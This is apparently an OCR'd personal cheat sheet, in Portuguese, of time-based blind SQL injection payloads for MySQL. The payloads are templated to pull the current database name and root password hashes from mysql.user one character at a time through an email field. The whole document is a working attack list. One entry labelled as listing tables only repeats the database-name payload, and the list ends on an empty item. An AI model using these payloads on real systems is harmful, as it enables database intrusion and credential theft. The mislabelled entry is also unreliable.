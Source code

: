 # SQLi

Mape

# Time Based

## Payloads
### Apenas um valor
- Obter schema atual:
`hacker@mail.com' or if(ascii(substring(database(),{i},1))={ord(c)}, sleep(5), 0) #`
- Obter um valor de uma tabela:
`hacker@mail.com' or if(ascii(substring((select password from mysql.user where user = 'root'),{i},1))={ord(c)}, sleep(5), 0) #`
- Obter valor de um campo específico da tabela:
`hacker@mail.com' or if(ascii(substring((select password from mysql.user limit 1 OFFSET {linha}),{i},1))={ord(c)}, sleep(5), 0) #`

### Mais de um valor
- Obter tabelas do schema atual:
`hacker@mail.com' or if(ascii(substring(database(),{i},1))={ord(c)}, sleep(5), 0) #`
- Obter mais de um valor de uma tabela:
`hacker@mail.com' or if(ascii(substring((select password from mysql.user limit 1 OFFSET {linha}),{i},1))={ord(c)}, sleep(5), 0) #`
- 
